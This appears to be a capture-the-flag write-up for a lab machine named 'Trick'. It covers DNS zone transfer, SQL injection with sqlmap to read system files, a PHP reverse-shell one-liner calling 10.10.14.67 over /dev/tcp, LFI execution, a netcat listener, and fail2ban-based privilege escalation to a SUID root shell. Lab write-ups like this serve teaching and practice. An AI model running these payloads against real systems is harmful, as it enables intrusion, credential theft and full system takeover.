

# Trick


## Enumeration

[Initial scans](scans/initial_scan.nmap) show that SSH, SMTP, DNS (Bind9), and Nginx are all running on the target.  The website hosted on Nginx appears to be nothing more than a standard "coming soon" page that presents no avenues for gaining a foothold.  An exhaustive scan with OWASP Zap also turned up nothing.


Attempting to enumerate some valid usernames via SMTP and Metasploit's *auxiliary/scanners/smtp/smtp_user_enum* module likewise turned up nothing useful.

According to the initial scan, the target uses the default *debian.localdomain* domain, but querying the DNS service for that domain gets no results.  There's no indication that it's being used, but let's try adding an entry for the domain *trick.htb* to our local /etc/hosts file, anyway.  That done, let's try querying the DNS service again.  This time, we'll attempt a zone transfer:


Success!  We now have another path to follow in the form of the *preprod-payroll.trick.htb* subdomain.  Let's add this to our local /etc/hosts file and see what we've got.


preprod-payroll.trick.htb leads us to a new page that includes a login.  We don't have any valid credentials, or even just a username, to log in here; so let's try a couple of simple tricks.  First, let's fire up Burp and send a login request, changing the *username* and *password* variables to arrays in case the login mechanism is using PHP's `strcmp()` function:


Unfortunately, this didn't get us in.  It did, however, show us that the application leaks potentially useful information in error messages.

Directory busting with ffuf shows a directory called *database*, but we just get a 403 error when attempting to access it.  [Fuzzing for files with the .php extension](scans/ffuf-preprod-payroll.md) turns up a lot, including a file called *users.php* that we can access without having to log in.  This page tells us that there's an admin user called *Enemigosss*.  Using hydra to try and brute force the password did not work, though.

```
hydra -l Enemigosss -P /usr/share/seclists/Passwords/darkweb2017-top10000.txt preprod-payroll.trick.htb http-post-form '/login.php:username=^USER^&password=^PASS^:Username or password is incorrect.'
```

Looking at the source code for users.php, we find the javascript that is used for adding/editing users:


This tells us that *manage_user.php* is the page that actually handles these functions; so we check out that source code, as well:


First, we try adding a new admin user:

```
curl -X POST 'http://preprod-payroll.trick.htb/ajax.php?action=save_user' -d 'id=2&name=test&username=test&password=chang3m3&type=1' -v
```

However, despite getting a response of "1" (supposedly indicating success), the new user does not show up on the users.php page and attempts to log in with it fail.  So, next, we try editing the existing *Enemigosss* admin user by pointing our browser to http://preprod-payroll.trick.htb/manage_user.php?id=1.


We see this does, indeed, load Enemigosss' user info.  And, if we have a look at the source code...


Boom!  We got the admin password.

Using these credentials, we are able to successfully log in:


It doesn't look like there are any easy LFI vulnerabilities available.  But the edit user function (manage_user.php?id=1) looks like it might be vulnerable to SQL injection.  So let's do a little testing with SQLMap.

Fire up Burp and and click the "Edit" action for user Enemigosss.  Right-click the intercepted request in Burp and select "Copy to file."  Save the request as a TXT file.  Now, let's try some basic enumeration:

```
sqlmap -r sqlmap_request.txt --banner --current-user --current-db --is-dba
```


The output proves that the target app is, indeed, vulnerable to SQL injection attacks.  


## Initial Foothold

Unfortunately, the current DB user (remo@localhost) isn't an admin, making it less likely that we'll be able to read local files on the target.  But, let's try reading /etc/passwd anyway:

```
sqlmap -r sqlmap_request.txt --file-read "/etc/passwd"
```


Surprisingly, it worked and the /etc/passwd file was saved to our machine.


We see here that there is a user called *michael* on the target.  Let's see if he's got a private key that we can read:

```
sqlmap -r sqlmap_request.txt --file-read "/home/michael/.ssh/id_rsa"
```

Unfortunately, that didn't work.  Next, let's try and write a reverse shell to the target.

1. Get a one-liner from `msfvenom` and save it as *shell.php*:

```php
<?php system('bash -c "0<&157-;exec 157<>/dev/tcp/10.10.14.67/4444;sh <&157 >&157 2>&157"'); ?>
```

2. Use SQLMap to try and write the file to the target:

```
sqlmap -r sqlmap_request.txt --file-write "shell.php" --file-dest "/tmp/shell.php"
```
(*NOTE: Attempting to write the file to /var/www/html did not work.*)

SQLMap output an error that said: *the remote file '/tmp/shell.php' is larger (103 B) than the local file 'shell.php' (96B)*.  But the write seems to have worked.

3. Start a netcat listener: `nc -lnvp 4444 -s 10.10.14.67`
4. Try taking advantage of a possible LFI vulnerability in the way the target app loads pages by pointing our browser to http://preprod-payroll.trick.htb/index.php?page=/./tmp/shell


It worked!  Let's give our shell a bit of an upgrade:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Checking out the db_connect.php file, we find another set of credentials for the *remo* user.

As indicated by our previous attempt to read michael's private key, it is only readable by the owner.  However, it looks like somone got here before us and left a little present: the results of a LinPEAS scan, run as the michael user, in /tmp/linpeas_report.  In this report we find michael's private key:


Using this key, we are able to SSH in to the target as michael and grab the user flag:


## Privilege Escalation

As we saw earlier, michael is a member of the *security* group.  Running `find / -group security 2> /dev/null` shows that the /etc/fail2ban/action.d/ directory is owned and writable by the security group.  `sudo -l` shows that michael can run `/etc/init.d/fail2ban restart` as root without a password.

In /etc/fail2ban/action.d/ there are many different .conf files.  If we look at *iptables-multiport.conf*, we can see there's a section called *actionstart*:


The command written here will execute when `fail2ban` starts.  Since we can restart `fail2ban`, our goal is to set *actionstart* to run the following command:

```bash
chmod +s /bin/bash
```

Unfortunately, all the .conf files in /etc/fail2ban/action.d/ are owned by root:root and we don't have any write privileges.  But, since the action.d/ directory, itself, is owned and writable by the security group -- of which michael is a member -- we CAN create new files.  So let's run the following sequence of commands to replace iptables-multiport.conf with a file we can write to:

```bash
cp iptables-multiport.conf iptables-multiport.conf.new; mv iptables-multiport.conf iptables-multiport.conf.bak; mv iptables-multiport.conf.new iptables-multiport.conf
```

And we can now write to the iptables-multiport.conf file:


So, let's write our command in the *actionstart* section and restart `fail2ban`:



As we can see, `/bin/bash` now has the SUID bit set.  Now, if we run `/bin/bash -p`, we should get a root shell:


Success.  Now let's grab the root flag.
